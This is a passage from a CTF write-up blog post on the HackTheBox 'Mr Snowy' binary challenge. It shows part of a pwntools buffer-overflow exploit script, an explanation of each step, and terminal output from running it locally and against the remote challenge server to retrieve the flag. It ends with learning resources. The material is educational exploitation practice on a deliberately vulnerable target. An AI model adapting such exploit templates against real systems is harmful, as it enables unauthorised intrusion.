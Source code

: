```python

# Send the payload
io.sendlineafter('> ', "1")
io.sendlineafter('> ', payload)
io.recvuntil('[+] Here is the secret password to deactivate the camera: ')
# Get our flag!
flag = io.recv()
success(flag)
```

This is a stripped down version of the code that [CryptoCat](https://github.com/Crypto-Cat/CTF/blob/main/HTB/pwn/reg/reg.py) used in his walkthrough of Reg on HackTheBox, because it's a good template to work off of (note that it is in python2 because that's just what pwn authors like using). To sum things up:
- We set a log level for debugging the exploit
- We tell pwntools what kind of architecture we're working with in the line where we assign stuff to `elf`
- We start the process, and use `flat()` to flatten our arguments into a string. We don't even have to rewrite our RIP in little-endian, pwntools takes care of that.
- We use the `sendlineafter()` to avoid playing with `recv()`s, and just specify at what point we want data to be sent.
- And then we get the flag!

## Grabbing the Flag
Locally, we get this:
```bash
(env) kali@transistor:~/ctf/santa_htb/day1/pwn_mr_snowy$ python exploit.py 
[+] Starting local process './mr_snowy': pid 1557
[+] HTB{f4k3_fl4g_4_t3st1ng}
    
[*] Stopped process './mr_snowy' (pid 1557)
```
<sub>*I have a virtual environment for pwntools in python2, hence the "env"*</sub>

The neat thing about pwntools is that we can just change the `process()` method for `remote()`, specifying the address, while the rest of our syntax can stay the same. Running the exploit against the remote target, we get the flag.

```bash
(env) kali@transistor:~/ctf/santa_htb/day1/pwn_mr_snowy$ python exploit.py 
[+] Opening connection to 138.68.174.27 on port 31056: Done
[+] HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}
    
[*] Closed connection to 138.68.174.27 port 31056
```

## Additional Resources
Binary exploitation goes very, very deep, and I'm excited to begin learning about it when I have time. If you want to learn more, here are some resources:

- [Nighmare - Intro to Pwn/Rev](https://guyinatuxedo.github.io/index.html)
- [ir0nstone's pwn notes](https://ir0nstone.gitbook.io/notes/)
- [THM Intro to pwntools](https://tryhackme.com/room/introtopwntools)
- [CryptoCat YouTube](https://www.youtube.com/channel/UCEeuul0q7C8Zs5C8rc4REFQ)
- [LiveOverflow YouTube](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)

Apologies if this post was a little more verbose than it really needed to be, but I hope you learned something, or remembered something, or found something I said wrong and are able to correct me :) 

[Location]: 🎅 Santa's garden..
[Location]: 🎅 Santa's garden..